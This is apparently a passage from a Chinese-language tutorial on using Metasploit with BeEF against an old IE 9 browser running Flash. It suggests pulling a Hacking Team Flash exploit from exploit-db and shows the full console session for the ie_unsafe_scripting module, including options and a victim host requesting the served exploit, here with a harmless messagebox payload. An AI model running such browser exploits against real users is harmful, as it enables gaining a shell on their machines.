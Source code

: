 如图，目标浏览器为IE 9，并且支持Flash，使用老版本IE还开着Flash这基本上就是随意拿SHELL的了

上www.exploit-db.com找一个最新的exploit，比如hacking team的flash漏洞，放在msf的modules文件夹下，然后按照exploit代码mkdir并且touch一个可读写的swf文件（具体路径可以先运行报错一遍看看在哪）

但是，我是一个口是心非的人，因为我在hacking team事件当天就升级了Flash，降级基本上不可能，而且老版本如果一旦更新就是最新版，实在不想浪费时间去配置个Flash 18.0.0.194特定的版本

让我来用一个比较冷门的exploit演示Metasploit和beEF的组合用法：

```
msf exploit(ms14_012_textrange) > use  exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > info

   Name: Microsoft Internet Explorer Unsafe Scripting Misconfiguration
 Module: exploit/windows/browser/ie_unsafe_scripting
   Platform: Windows
   …………

msf exploit(ie_unsafe_scripting) > set SRVHOST 192.168.1.163
SRVHOST => 192.168.1.163
msf exploit(ie_unsafe_scripting) > set payload windows/messagebox
payload => windows/messagebox
msf exploit(ie_unsafe_scripting) > show options

Module options (exploit/windows/browser/ie_unsafe_scripting):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   SRVHOST  192.168.1.163    yes   The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT      8080         yes   The local port to listen on.
   SSL         false               noNegotiate SSL for incoming connections
   SSLCert noPath to a custom SSL certificate (default is randomly generated)
   TECHNIQUE  VBS  yes   Delivery technique (VBS Exe Drop or PSH CMD) (accepted: VBS, Powershell)
   URIPATH       no                The URI to use for this exploit (default is random)


Payload options (windows/messagebox):

   Name  Current Setting   Required  Description
   ----  ---------------   --------  -----------
   EXITFUNC  process   yes   Exit technique (accepted: seh, thread, process, none)
   ICON  NOyes   Icon type can be NO, ERROR, INFORMATION, WARNING or QUESTION
   TEXT  Hello, from MSF!  yes   Messagebox Text (max 255 chars)
   TITLE MessageBoxyes   Messagebox Title (max 255 chars)


Exploit target:

   Id  Name
   --  ----
   0   Windows x86/x64


msf exploit(ie_unsafe_scripting) > set URIPATH /a
URIPATH => /a
msf exploit(ie_unsafe_scripting) > exploit
[*] Exploit running as background job.
msf exploit(ie_unsafe_scripting) > 
[*] Using URL: http://192.168.1.163:8080/a
[*] Server started.
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a

```